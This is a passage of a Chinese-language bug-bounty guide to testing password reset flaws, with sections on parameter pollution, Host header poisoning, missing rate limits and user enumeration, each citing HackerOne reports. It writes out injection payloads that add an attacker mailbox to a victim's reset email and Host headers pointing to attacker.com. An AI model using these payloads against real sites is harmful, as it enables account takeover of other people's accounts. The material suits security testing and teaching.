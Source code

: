 在为受害者用户请求密码重置链接时，我们可以尝试以下参数操纵，以在攻击者邮箱中获得受害者的重置链接副本。  
```
双重参数（即HPP / HTTP参数污染）：email=victim@xyz.tld&email=hacker@xyz.tld抄送：email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld使用分隔符：email=victim@xyz.tld,hacker@xyz.tldemail=victim@xyz.tld%20hacker@xyz.tldemail=victim@xyz.tld|hacker@xyz.tld无域名：email=victim无顶级域名（TLD）：email=victim@xyzXML：尝试XXE！JSON表格：json{"email":["victim@xyz.tld","hacker@xyz.tld"]}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76nKLPlJmaH82BgBNrnDM3UGPQSxoX2JFMFC4LSVVWe2YLMicPicMyibfCrEPJm7mqndPib1tuPK5RLBWg/640?wx_fmt=png&from=appmsg "null")  
  
Capture  
  
**案例：**  
  
https://hackerone.com/reports/1175081  
  
### 5. Host Header中毒  
  
实现密码重置功能的常见方式是生成一个密令并发送包含该令牌的链接的电子邮件。 如果攻击者能够更改Host头部，那么他们就可以将令牌重定向到他们的网站或服务器，这可能导致密码重置中毒。  
1. 1. 拦截请求并更改Host头部为attacker.com。  
  
1. 2. 现在检查您的邮件，如果您收到了包含attacker.com的URL的密码重置链接，那么它就易受密码重置中毒的影响。  
  
直接将Host更改为任何网站大多数时候是不起作用的。您可以尝试以下方法绕过这个问题。  
  
添加X-Forwarded-Host头部：  
```
Host: attacker.comX-Forwarded-Host: target.com或：Host: bing.comX-Forwarded-Host: target.com或：Host: target.comHost: attacker.com您可以使用ngrok服务器作为您的攻击者服务器！
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76nKLPlJmaH82BgBNrnDM3UGPMBkRznWJoeuyWuXvWSKCX1iczAnjth2eGDUXNHF3zbcobreiaLzwJpA/640?wx_fmt=png&from=appmsg "null")  
  
Capture  
  
**案例：**  
  
https://shahjerry33.medium.com/otp-bypass-developers-check-5786885d55c6  
  
https://hackerone.com/reports/226659  
### 6. 密码重置无速率限制  
  
速率限制用于控制进出网络的流量量。 基本上，没有速率限制意味着没有机制来保护您在短时间内发出的请求。 因此，尝试发送大量请求，如果没有阻止您，那么您可以将其视为漏洞。  
1. 1. 启动Burp Suite并拦截密码重置请求。  
  
1. 2. 发送到 intruder。  
  
1. 3. 使用空负载。  
  
**案例：**  
  
https://hackerone.com/reports/838572  
### 7. 通过密码重置页面进行用户枚举  
  
用户名枚举是攻击者试图从Web应用程序中检索有效用户名的活动。 您可以在登录页面、注册表单页面或密码重置页面上检查这种类型的漏洞。  
1. 1. 转到密码重置页面。  
  
1. 2. 输入一个存在的用户名，不会有错误，并将被重定向到登录页面。  
  